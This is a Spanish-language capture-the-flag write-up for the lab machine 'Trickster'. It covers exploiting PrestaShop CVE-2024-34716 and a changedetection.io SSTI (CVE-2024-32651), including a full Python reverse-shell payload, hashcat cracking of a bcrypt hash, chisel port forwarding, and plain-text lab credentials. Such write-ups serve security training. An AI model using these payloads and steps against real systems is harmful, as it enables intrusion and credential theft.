# Trickster

## Reconocimiento

### Enumeracion de puertos
```bash
nmap -sS --min-rate=5000 -p- -Pn 10.10.11.34 -oN PORTS -vvv
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Se encontro el puerto 22 y el 80 abierto pasamos a escanear sus servicios.

### Enumeracion  de servicios

```bash
nmap -sS --min-rate=5000 -p22,80 -sC -sV -n 10.10.11.34 -oN PORTS -vvv
```
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
http-title: Did not follow redirect to http://trickster.htb/

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)

En el puerto 80 vemos que tenemos un servicio apache httpd 2.4.52 y un domain name trickster.htb

### Enumarecion de la web
En la pagina principal de trickster no encontramos anda interesante asi que procedemos mas que un link a la shop con un subdomain shop.trickster.htb.

En la shop solo encontramos un email de el admin 'admin@trickster.htb'

Enumerando directorios o entrando a robots.txt encontramos que hay una directorio llamado .git que contiene un directory listing.

Extraemos el directorio con la tool git-dumper

```bash
git-dumper http://shop.trickster.htb/.git ~/trickster/
```
Y vemos los archivos ahi vemos que tenemos una ruta


Yendo a la ruta http://shop.trickster.htb/admin634ewutrx1jgitlooaj/

nos encontramos un login y la version de prestashop 8.1.5


## Explotacion
Buscando sobre la version mencionada nos encontramos con el CVE-2024-34716 y su PoC.


Este Poc afecta 
Solo que debemos hacer algunos cambios

En el exploit.html debemos realizar los siguientes cambios:


Luego en el archivo malicious zip abrimos el file manager hacemos double click y cambiamos de nombre el archivo reverse_shell.php para a.php
dentro del archivo hacemos los respectivos cambios de nuestra ip address y el puerto.



Luego dentro del exploit.py continuamos modificamos la ruta de get reverse_shell.php a a.php


y estamos dentro como www-data



## Post-Explotacion

Hacemos un cat /etc/passwd y vemos que hay 2 usuarios james y adam los cuales no tenemos acceso todavia.
Enumerando rutas dentro del directorio var nos encontramos con el archivo paramater.php en la ruta ~/prestashop/app/config
Dentro de este archivo podemos visualizar las credenciales del servicio mysql



Procedemos a ingresar a mysql con el usario ps_user y la password prest@shop_o
Vemos que tenemos la database prestashop, eumeramos sus tables y vemos dentro de la table ps_employee

Nos encontramos con dos hashes el de admin y james.


El hash que desamos extraer es el de james, sabemos que es un bcrypt Blowfish Unix por el "$2*$ asi que procedemos a hacer un brute forcing con hashcat

```bash
hashcat -m 3200 '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm' /usr/share/wordlists/rockyou.txt
```
Desencriptamos el hash y nos damos con la siguiente password alwaysandforever
Nos conectamos al ssh de james y tenemos la primera flag


Hacemos un escaneo de la red y nos encontramos con un docker corriendo con la ip 172.17.0.2
Asi que hacemos su escaneo descargando nmap en la shell de james

```bash
nmap -p- -Pn --open 172.17.0.2
```
Y nos encontramos con el puerto 5000 abierto.

Procedemos a hacer un portforwarding con chisel.
En nuestra maquina atacante colocamos el siguiente codigo

```bash
chisel server -p <PORT> --reverse
```

Y en la shell de james despues de haber descargado chisel colocamos lo siguiente:

```bash
./chisel cliente <local-ip>:<PORT> R:5000:172.17.0.2:5000
```
Abrimos firefox en el localhost:5000 y nos encontramos con la pagina de login de CHANGEDETECTION.IO y su version v0.45.20



Probamos con la password de james y estamos dentro.
Revisando la version del servicio nos encontramos con el CVE-2024-32651 un SSTI esta vulnerabilidad nos permite un RCE.

Para realizarla la explotacion abrimos una segunda shell de james y creamos un servidor en el puerto 8000 con python

```bash
python3 -m http.server 8000
```
Abrimos en listener en nuestra shell.

```
sudo nc -nlvp 4444
```

En la web la seccion de la url colocamos la siguiente url http://172.17.0.1:8000 y clicamos watch



Una vez hecho eso entramos a editar y la seccion de notications.
En la parte de notification url list colocamos lo siguiente:
get://<LOCAL-IP>

En el titulo se puede poner cualquier cosa

Y en el notification body el siguiente codigo para la reverse shell:
```bash
{{ x().module.builtins['_import']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("listen_ip",listen_port));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'").read() }}
```
Clicamos save.

Una vez guardado clicamos recheck y dentro de donde tenemos el server python abierto  creamos un index.html

```bash
echo '<!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>PoC Server</title></head><body><h1>Root PoC Trigger</h1><p>This is just a placeholder page for triggering the PoC.</p></body></html>' > index.html
```

y clicamos recheck otra vez.

Ya estamos dentro de la maquina docker, ahroa dentro de la maquina docker escibimos history para ver la hsitoria de los commandos y encontramos la pass de root

Hacemos ssh a root y colocamos la password y ya tenemos total acceso.